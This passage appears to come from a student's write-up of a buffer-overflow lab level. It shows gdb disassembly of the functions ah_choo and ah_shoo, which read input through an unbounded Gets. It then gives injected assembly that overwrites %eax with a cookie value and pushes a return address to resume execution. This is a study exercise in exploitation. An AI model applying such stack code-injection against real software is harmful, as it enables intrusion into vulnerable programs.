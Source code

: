 > (gdb) disas ah_choo<br />

**Dump of assembler code for function ah_choo:**

Address | Operation | Elements in operation
--- | --- | ---
0x08048cec <+0>:  |   sub  |  $0x4c, %esp
0x08048cef <+3>:  |   lea  |  0x18(%esp), %eax
0x08048cf3 <+7>:  |   mov  |  %eax, (%esp)
0x08048cf6 <+10>: |   call |  0x8048c56 <Gets>
0x08048cfb <+15>: |   mov  |  $0x1, %eax
0x08048d00 <+20>: |   add  |  $0x4c, %esp
0x08048d03 <+23>: |   ret  |

**End of assembler dump.**

From function **ah_choo()**, it can be seen that register %eax will be storing the return value of function **ah_choo()** (which is initially worth 1). It means that our remaining task is to change the contents of register %eax into our cookie.
 
Let's see the contents of function **ah_shoo()** so that we know whether there's any changes in register %eax or not. 
 
> (gdb) disas ah_shoo<br />

**Dump of assembler code for function ah_shoo:**

Address | Operation | Elements in operation
--- | --- | ---
0x08048d04 <+0>:  |  sub   |  $0xc, %esp
0x08048d07 <+3>:  |  call  |  0x8048cec <ah_choo>
0x08048d0c <+8>:  |  add   |  $0xc, %esp
0x08048d0f <+11>:  |   ret  |

**End of assembler dump.**

It can be seen that there's no any changes in register %eax so that we can confirmed that the return value of function **ah_choo()** is always located on register %eax after function **ah_choo()** was finished. Also note that the return address of function **ah_choo()** is 0x08048d0c.  

Let's get started!

As we'll change the contents of register %eax, then we'll do the similar way as the previous level which means we'll do it through code injection. In our code injection there must be a command to change the contents of register %eax into our cookie. Afterwards we must insert the return address of function **ah_choo()** as we'll return to procedure **test()** after this function was finished. Then the last instruction is just a return.

Here's the code:

> movl $0x1d9ed824, %eax<br />
> pushl $0x08048d0c<br />
> ret<br />

The first row changes the contents of register %eax into our cookie.

The second row inserts the return address of function **ah_choo()** into the stack, then returned at the last row.
